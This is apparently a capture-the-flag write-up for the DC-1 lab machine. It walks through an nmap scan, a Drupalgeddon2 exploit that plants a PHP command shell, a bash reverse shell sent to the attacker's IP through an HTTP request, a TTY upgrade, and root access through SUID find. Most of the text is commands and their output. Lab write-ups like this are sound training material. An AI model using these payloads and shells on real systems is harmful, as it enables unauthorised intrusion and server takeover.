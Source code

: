 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/dc-1,292/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration

Performing a `nmap` scan to identify the attack surface of the target.

## nmap
```bash
nmap 192.168.200.193       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 13:38 EDT
Nmap scan report for 192.168.200.193
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

## web server (port 80)
- `gobuster` did not reveal anything useful on the web server on port `80`
- website with drupal installation  

> maybe vulnerable to `druaplgeddon`
{: .prompt-info }

---

# exploitation
## durpalgeddon2
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

```bash
ruby drupalgeddon2.rb http://192.168.200.193/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.200.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.200.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.200.193/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://192.168.200.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://192.168.200.193/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.200.193/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZFKXPOT
[+] Result : OZFKXPOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.200.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.200.193/shell.php' -d 'c=hostname'
DC-1>> whoami
www-data
```

Yay! RCE works!

---

# post exploitation
## full reverse shell
`drupalgeddon` deploys a simple `shell.php` and we will exploit this to get a cute reverse shell.

### listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

### on target machine
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.200/80 0>&1'`
```http
GET /shell.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.200/80+0>%261' HTTP/1.1
Host: 192.168.200.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: has_js=1
Connection: close
```

### catch reverse connection
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.200.193: inverse host lookup failed: Unknown host
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.193] 45807
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami
whoami
www-data
```

### make it beautiful
```bash
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ export TERM=xterm
export TERM=xterm
```

hit CTRL+Z
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -lvp 80
stty raw -echo; fg                                                                 
[1]  + continued  nc -lvp 80

www-data@DC-1:/var/www$ whoami 
www-data
```
Now we got a fully interactive shell with autocomplete etc. :)

## first flag
```bash
www-data@DC-1:/var/www$ cd /
www-data@DC-1:/$ cd home
www-data@DC-1:/home$ ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
7******************************8
```

## privilege escalation
### check for suid binaries
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwxr-sr-x 1 root ssh 128396 Jan 27  2018 /usr/bin/ssh-agent
-rwsr-sr-x 1 daemon daemon 50652 Oct  4  2014 /usr/bin/at
-rwxr-sr-x 1 root mlocate 30492 Sep 25  2010 /usr/bin/mlocate
-rwxr-sr-x 1 root mail 17908 Nov 18  2017 /usr/bin/lockfile
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 49364 Feb 27  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 9708 Jun 11  2012 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwxr-sr-x 1 root mail 9768 Nov 30  2014 /usr/bin/mutt_dotlock
-rwxr-sr-x 1 root tty 18020 Dec 10  2012 /usr/bin/wall
-rwxr-sr-x 1 root crontab 34760 Jul  4  2012 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 18168 Feb 27  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwxr-sr-x 1 root mail 13960 Dec 12  2012 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 4972 Feb 21  2011 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root shadow 30332 May  5  2012 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```
> `find` looks juicy! Check [gtfobins](https://gtfobins.github.io/) on how to exploit `find` to gain `root` access.
{: .prompt-info }

```bash
www-data@DC-1:/home$ whereis find
find: /usr/bin/find /usr/bin/X11/find /usr/share/man/man1/find.1.gz
www-data@DC-1:/home$ find . -exec /bin/sh \; -quit    
# whoami
root
```
There we go!

## second flag
```bash
# cd /root
# ls
proof.txt  thefinalflag.txt
# cat proof.txt
0******************************1
```
  
Pwned! <@:-)
